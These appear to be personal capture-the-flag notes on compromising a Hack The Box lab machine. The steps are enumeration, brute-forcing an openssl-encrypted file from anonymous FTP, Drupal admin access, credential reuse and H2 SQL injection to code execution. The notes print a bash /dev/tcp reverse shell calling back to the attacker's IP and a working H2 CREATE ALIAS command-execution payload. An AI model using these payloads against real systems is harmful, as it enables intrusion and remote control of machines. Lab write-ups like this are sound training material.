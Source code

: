 #ejpt-htb-machines #openssl
# nmap scan

```shell
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-11-27 07:45 CST
Nmap scan report for 10.129.95.193
Host is up (0.0022s latency).
Not shown: 65529 closed tcp ports (reset)
PORT     STATE SERVICE       VERSION
21/tcp   open  ftp           vsftpd 3.0.3
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.10.14.84
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 1
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_drwxr-xr-x    2 ftp      ftp          4096 Jun 16  2018 messages
22/tcp   open  ssh           OpenSSH 7.6p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 e4:0c:cb:c5:a5:91:78:ea:54:96:af:4d:03:e4:fc:88 (RSA)
|   256 95:cb:f8:c7:35:5e:af:a9:44:8b:17:59:4d:db:5a:df (ECDSA)
|_  256 4a:0b:2e:f7:1d:99:bc:c7:d3:0b:91:53:b9:3b:e2:79 (ED25519)
80/tcp   open  http          Apache httpd 2.4.29 ((Ubuntu))
|_http-generator: Drupal 7 (http://drupal.org)
|_http-title: Welcome to 192.168.56.103 | 192.168.56.103
|_http-server-header: Apache/2.4.29 (Ubuntu)
| http-robots.txt: 36 disallowed entries (15 shown)
| /includes/ /misc/ /modules/ /profiles/ /scripts/ 
| /themes/ /CHANGELOG.txt /cron.php /INSTALL.mysql.txt 
| /INSTALL.pgsql.txt /INSTALL.sqlite.txt /install.php /INSTALL.txt 
|_/LICENSE.txt /MAINTAINERS.txt
5435/tcp open  tcpwrapped
8082/tcp open  http          H2 database http console
|_http-title: H2 Console
9092/tcp open  XmlIpcRegSvc?
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :

```

# did some more enumeration, tried drupalgeddon, scanned the site using droopescan, nothing works,

# found a openssl encrypted file in the ftp server, downloaded and decrypted it using [openssl-bruteforce](https://github.com/thosearetheguise/decrypt-openssl-bruteforce)

```shell

python3 decrypt-openssl-bruteforce.py -i ../.drupal.txt.enc -s -b64 -w /usr/share/wordlists/rockyou.txt -o dec.txt

   Daniel,

Following the password for the portal:

PencilKeyboardScanner123

Please let us know when the portal is ready.

Kind Regards,

IT department

```

# The credentials work in admin user, in the admin dashboard page, I enabled php filter then proceed with adding a page that contains a reverse shell


# Found mysql creds on the settings page, used it on daniel user, /var/www/html/sites/default/settings.php

daniel@drupal4hawk


# H2 sqli to rce vulnerabiltiy
https://www.sonarsource.com/blog/dotcms515-sqli-to-rce/

# created a reverse shell bash script on /tmp

```shell
#!/bin/bash

bash -i >& /dev/tcp/10.10.14.84/4444 0>&1

```

# then used it injected an sql payload on h2 sql
```sql
CREATE ALIAS EXEC AS CONCAT('void e(String cmd) throws java.io.IOException',
HEXTORAW('007b'),'java.lang.Runtime rt= java.lang.Runtime.getRuntime();
rt.exec(cmd);',HEXTORAW('007d'));
CALL EXEC('/tmp/bash.sh');
```